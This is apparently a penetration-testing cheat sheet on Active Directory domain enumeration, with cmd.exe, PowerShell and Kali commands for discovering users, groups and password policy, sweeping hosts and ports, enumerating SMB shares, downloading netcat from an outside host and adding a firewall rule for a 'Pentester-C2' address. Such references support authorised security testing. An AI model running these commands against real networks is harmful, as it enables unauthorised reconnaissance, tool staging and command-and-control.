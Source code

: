 # Domain Enumeration

## Command Tools (cmd.exe)

Display Networking Info
```CMD
ipconfig /all
```
Display Domain
```CMD
echo %USERDOMAIN%
```
Display Domain Controller
```CMD
echo %logonserver%
```
Display Domain Password Policy
```CMD
net accounts /domain
```
Display DC Address, Domain Name, Roles
```CMD
wmic ntdomain
```
Display All Domain Users
```CMD
wmic /NAMESPACE:\\root\directory\ldap PATH ds_user GET ds_samaccountname
```
Display All Domain Groups
```CMD
wmic /NAMESPACE:\\root\directory\ldap PATH ds_group GET ds_samaccountname
```
Display All Domain Computers
```CMD
wmic /NAMESPACE:\\root\directory\ldap PATH ds_computer GET ds_samaccountname
```

## PowerShell Tools

Ping Sweeper
```PowerShell
 1..255 | % {echo "192.168.1.$_"; ping -n 1 -w 100 192.168.1.$_ | Select-String ttl}
```
Port Sweeper
```PowerShell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("<IPADDR>", $_)) "Port $_ is open!"} 2>$null
```
Sweep Range of IPs for Single Port
```PowerShell
foreach ($ip in 1..20) {Test-NetConnection -Port 80 -InformationLevel "Detailed" 192.168.1.$ip}
```
Sweep IPs and Ports
```PowerShell
1..20 | % { $a = $_; 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.$a",$_)) "Port $_ is open!"} 2>$null}
```
Test Egress Filtering
```PowerShell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("allports.exposed",$_)) "Port $_ is open" } 2>$null
```
Web Client to Download Files (eg NetCat)
```PowerShell
wget "http://10.10.10.10/nc.exe" -outfile "c:\nc.exe"
```
Get Firewall Rules
```PowerShell
Get-NetFirewallRule -all | Out-GridView
 Get-NetFirewallRule -all | Export-csv <file_path.csv>
```
Add Firewall Rule
```PowerShell
New-NetFirewallRule -Action Allow -DisplayName Pentester-C2 -RemoteAddress <IPADDR>
```

 ## Linux/Kali Tools

 SMB Enumeration Tools
 ```bash
nmblookup -A target
smbclient //MOUNT/share -I target -N
rpcclient -U "" target
enum4linux target
```

Discover Windows / Samba servers on subnet, finds Windows MAC addresses, netbios name and discover client workgroup / domain
```bash
nbtscan 192.168.1.0/24
```

Do Everything, runs all options (find windows client domain / workgroup) apart from dictionary based share name guessing
```bash
enum4linux -a target-ip
```

Fingerprint SMB Version
```bash
smbclient -L //192.168.1.100 
```




 https://www.sans.org/blog/pen-test-poster-white-board-powershell-built-in-port-scanner/

## Domain Enumeration Resources

* Information dumper via LDAP: https://github.com/dirkjanm/ldapdomaindump
* Integrated DNS dumping by any authenticated user: https://github.com/dirkjanm/adidnsdump
* Advanced Discovery of Privileged Accounts: https://github.com/cyberark/ACLight
* Detailed Active Directory Recon Tool: https://github.com/sense-of-security/ADRecon
* Powershell AD Enumeration: https://www.exploit-db.com/docs/english/46990-active-directory-enumeration-with-powershell.pdf
* Data collector tool: https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html